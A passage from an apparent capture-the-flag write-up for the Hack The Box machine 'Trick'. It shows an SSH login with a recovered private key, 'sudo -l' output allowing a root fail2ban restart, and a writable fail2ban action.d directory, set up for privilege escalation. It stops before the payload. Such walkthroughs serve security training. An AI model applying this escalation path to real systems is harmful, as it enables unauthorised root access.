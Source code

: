 -----END OPENSSH PRIVATE KEY-----
```

SSH into the box:
```
┌──(kali㉿kali)-[~/htb/trick]
└─$ chmod 0400 id_rsa && ssh michael@trick.htb -i id_rsa                                                      130 ⨯
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ 
```

|  userflag |
|---|
|  REDACTED |

## Privilege Escalation

```sudo -l``` reveals that we can execute ```failtoban``` via ```sudo```, which could be the privilege escalation factor. 


```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart

```
 I decided to not run ```linpeas.sh``` and investigate on ```fail2ban``` first.
 
Eventually I've found a blogpost we can try to follow along. I also could confirm that we are in the group ```security``` which has write privileges on ```/etc/fail2ban/action.d``` which is a ```requirement``` for this exploit.
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
```
michael@trick:~$ ls -la /etc/fail2ban/
total 76
drwxr-xr-x   6 root root      4096 Jun 21 15:12 .
drwxr-xr-x 126 root root     12288 Jun 21 14:53 ..
drwxrwx---   2 root security  4096 Jun 21 15:12 action.d
-rw-r--r--   1 root root      2334 Jun 21 15:12 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jun 21 15:12 fail2ban.d
drwxr-xr-x   3 root root      4096 Jun 21 15:12 filter.d
-rw-r--r--   1 root root     22908 Jun 21 15:12 jail.conf
drwxr-xr-x   2 root root      4096 Jun 21 15:12 jail.d
-rw-r--r--   1 root root       645 Jun 21 15:12 paths-arch.conf
-rw-r--r--   1 root root      2827 Jun 21 15:12 paths-common.conf
-rw-r--r--   1 root root       573 Jun 21 15:12 paths-debian.conf
-rw-r--r--   1 root root       738 Jun 21 15:12 paths-opensuse.conf
michael@trick:~$ groups
michael security

